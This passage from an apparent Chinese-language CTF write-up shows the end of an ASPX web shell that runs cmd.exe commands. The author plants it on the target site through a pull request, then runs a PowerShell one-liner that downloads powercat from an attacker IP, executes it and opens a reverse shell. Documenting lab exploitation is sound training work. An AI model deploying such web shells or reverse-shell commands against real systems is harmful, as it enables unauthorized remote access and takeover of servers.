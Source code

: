```html
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub
</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
```
然后pull request

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-20-29-24.png)

将修改更新到网站

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-14-43.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-15-27.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-15-57.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-16-21.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-16-59.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-30-26.png)

执行命令

`powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.78:8080/powercat.ps1');powercat -c 10.10.14.78 -p 4444 -e cmd`

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-36-31.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-35-29.png)

![]({{ site.url }}/assets/Worker_203.assets/2020-11-04-21-37-17.png)
